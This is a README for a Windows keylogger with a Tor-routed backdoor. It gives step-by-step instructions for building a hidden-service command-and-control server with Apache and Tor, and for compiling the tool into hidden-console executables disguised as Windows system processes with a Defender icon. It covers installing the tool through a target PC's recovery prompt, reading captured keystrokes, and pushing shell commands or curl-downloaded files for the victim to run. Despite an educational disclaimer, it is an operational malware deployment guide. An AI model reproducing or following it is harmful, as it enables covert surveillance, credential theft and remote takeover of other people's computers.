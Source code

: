 <pre>
THIS PROJECT WAS CREATED FOR EDUCATIONAL AND EXPERIMENTAL PURPOSES ONLY. DO NOT USE IT ON MACHINES THAT ARE NOT YOUR OWN OR THAT ARE NOT PART OF YOUR VIRTUAL LAB!
EVEN IF THE CHOSEN NAMES ARE ULTRA STEALTH, THAT DOES NOT MEAN IT SHOULD BE USED IMPROPERLY!
I take no responsibility for any direct, indirect, or collateral damage resulting from improper or unauthorized use of this tool. Use is entirely under the user's own responsibility.
  

--------------------------------------- TheHiddenWiredProject ---------------------------------------

What is TheHiddenWiredProject?
TheHiddenWiredProject (THWP) is a keylogger with an integrated backdoor designed to be ultra stealthy
because all traffic generated is routed through Tor!

Is it safe?
Yeah bro, it's 100% safe, you can modify the code however you want without issues, while Tor helps
you hide your server (used to listen to the keylogger and use the backdoor).

So I need to set up a server?
Yeah, it's necessary to have a high enough level of anonymity

Is it ready to use?
Absolutely not, you have to compile it yourself, it's super easy, keep reading and I'll explain

Do you recommend it?
Absolutely yes! This tool is extremely compact, yet at the same time ultra stealthy,
you'd never find a keylogger with a Tor-based backdoor on the internet!

------------ The Brains Behind THWP ------------
Isass.py ---> Tor Proxy
SecurityHealthSystray.bat ---> Starts proxy, Brain, and Tor
WMIHost.py ---> THWP (Brain)
wuasrv.exe ---> Tor.exe (Downloaded from the official site, but renamed)
wuasrvs.py ---> Delayed Tor launch to avoid errors
installer.bat ---> Installer from WindowsPE

----------------------------------------------------------------------------------------------------

Let's move on to the boring theory that's necessary to configure the server and compile THWP

Starting with the required tools...

A PC or VM with Linux (I recommend a Debian-based distro like Debian, Ubuntu, Mint, etc.)
A stable internet connection (at least 2Mbitps)

----------------------------------------------------------------------------------------------------
Create and configure the Tor server:

#To avoid issues, become root with "sudo su"

#install apache and tor
sudo apt install apache2 tor

#run at startup automatically
sudo systemctl enable apache2
sudo systemctl enable tor

#start the daemons
sudo systemctl start apache2
sudo systemctl start tor

#configure the apache server
cd /var/www/html
sudo rm **
sudo mkdir payloads_httpcmd
cd payloads_httpcmd
sudo nano default.txt (this is where the commands the target will execute every 60 seconds go)

#edit the torrc file
sudo nano /etc/tor/torrc

#Add the following information at the end of the file:

HiddenServiceDir /var/lib/tor/serverTHWP
HiddenServicePort 80 127.0.0.1:80

#The first string "HiddenServiceDir" specifies where tor will save the server config (DO NOT USE CUSTOM DIRECTORY TO AVOID ISSUES, LEAVE IT AS IS)
#The second string hosts on port 80

#Now you need to restart Tor to apply the changes
sudo systemctl restart tor

#If you have doubts go to: https://community.torproject.org/onion-services/setup/
#Or ask ChatGPT

#Now you need to see your tor domain, you can find it with:
cat /var/lib/tor/serverTHWP/hostname

#To avoid issues, become root with "sudo su"

----------------------------------------------------------------------------------------------------

Now you need to configure TheHiddenWiredProject so it routes traffic to your domain,
so edit the file Isass.py, find a variable called "TARGET_ONION" (you’ll find it at the beginning),
and put your domain there (the one ending in .onion that you found in the hostname file)

----------------------------------------------------------------------------------------------------

Now everything is ready! You can test the functionality on a Windows VM, if everything works you can compile everything!

To compile everything you need a Windows machine, we’ll use nuitka to turn our python files into executables.

1) Install Python on the Windows machine (Not from MStore but from the official site)
2) Now open the terminal and type: pip install nuitka (If pip is not found, restart Windows after installing Python)
3) Now type: nuitka --onefile --windows-disable-console file.py

#--onefile = single .exe file
#--windows-disable-console = no prompt when executed

4) Run nuitka for every .py file (Isass.py, WMIHost.py, wuasrvs.py)
5) After compiling all the .py files you need to compile SecurityHealthSystray.bat with Bat-To-Exe-Converter (Look it up online) NOTE: INSTALLER.BAT MUST REMAIN RAW, DO NOT COMPILE IT!
6) Add the defender icon to the .bat file inside the compiler to get an .exe with Defender icon
----------------------------------------------------------------------------------------------------

Now you’re almost done!
Copy the compiled project onto a USB drive, copy the file installer.bat to the main directory of the USB, delete the "WPE" folder (IT IS IMPORTANT)
and the result should be this:

E:\\Isass.exe
E:\\Installer.bat
E:\\SecurityHealthSystray.exe
E:\\WMIHost.exe
E:\\wuasrv.exe
E:\\wuasrvs.exe

If it doesn’t match, you messed something up.


How do I install it??
1) Boot Windows
2) Once you are at the lock screen, go to the shutdown menu, hold "SHIFT" while clicking "Restart"
3) You should see on screen "Please wait"
4) After the reboot go to: Troubleshoot > Advanced options > Command prompt
5) Now find the letter of the USB (varies from PC to PC), try from C to J (just type the letter followed by a colon, like "c:")
6) Once you find the USB, run installer.bat
7) The PC will reboot by itself and TheHiddenWiredProject will be installed!
8) Have fun!
----------------------------------------------------------------------------------------------------

How do I check the keys pressed?
Pressed keys are saved on the server at "/var/log/apache2/access.log" in base32 in 32-character stacks, you need to decode them from base32 to plaintext, just look online for "base32 to text", paste the request and you'll see the pressed keys.

Example:
root@debianVM:/var/log/apache2# cat access.log
127.0.0.1 - - "GET /UNIQUE_CODE_GENERATED/MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA" 404
127.0.0.1 - - "GET /UNIQUE_CODE_GENERATED/ORSXG5BBEE======" 404

We only consider the base32 part, so this: MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA and this: ORSXG5BBEE======
if we decode them we get:

stack1 "MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA" = ciaoo, questo é un 
stack2 "ORSXG5BBEE======" = test!!

----------------------------------------------------------------------------------------------------

To execute code on the machine via the backdoor, just edit the file: /var/www/html/payloads_httpcmd/default.txt
and write Windows shell code, and it will be executed with the privileges of the current user, we can also download files with curl and execute them.
But be careful, you have to make sure that the shell code is not executed in a loop, because otherwise you risk messing things up, so once you see
the request for the payload, remove the content of default.txt, otherwise the code will be executed every 60 seconds!

----------------------------------------------------------------------------------------------------

HAVE FUN IN AN ETHICAL AND HEALTHY WAY, WITHOUT CAUSING REAL DAMAGE TO PEOPLE, DATA, OR SYSTEMS THAT DO NOT BELONG TO YOU!

                                                             100% created with the mind of ElektroWindows :)
</pre>
